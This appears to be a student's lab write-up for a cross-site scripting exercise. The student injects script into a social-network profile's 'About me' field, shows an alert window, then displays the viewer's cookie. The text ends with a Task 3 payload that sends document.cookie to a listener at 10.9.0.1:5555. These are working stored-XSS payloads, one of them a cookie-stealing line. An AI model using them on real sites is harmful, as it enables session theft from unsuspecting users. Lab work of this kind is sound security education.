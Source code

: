 # Work on week #10

## Task 1

* In this first task, we want to post a malicious message to be displayed in an alert window.

* Firstly, we logged in the server as Alice and looked for and editable field for html. Fortunately, the section "About me" allows us to do that in the "Edit Profile" page:

![](https://i.imgur.com/AJ39lK2.png)

* Then, we injected the code given in this field:

![](https://i.imgur.com/EufKsqC.png)

* We logged in with other user, in this case as admin, and searched for the Alice's profile page.

![](https://i.imgur.com/36FNRIZ.png)

* When we clicked on her profile an alert window with the message we wrote, which means that our attack was successful:

![](https://i.imgur.com/VePYOAS.png)

## Task 2

 * In task 2 is very similiar to task 1. The only difference is in this task the message is gonna appear like cookie.

 * To do this, we have to put this code in about me in our profile (in this case, Alice's profile) and we check with Samy's profile alice account and we can saw the message.
 
 ```javascript=
<script>alert(document.cookie);</script>
```
![](https://i.imgur.com/s6qmdss.png)

![](https://i.imgur.com/selmx4P.png)

* The attack is done.

## Task 3

* Our goal on this task 3 is to steal cookies from the victim’s machine. In order to do this, we have to change the "About me" section in our profile (in this case, Alice's profile) for:

```javascript=
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’   >’);
</script>
```
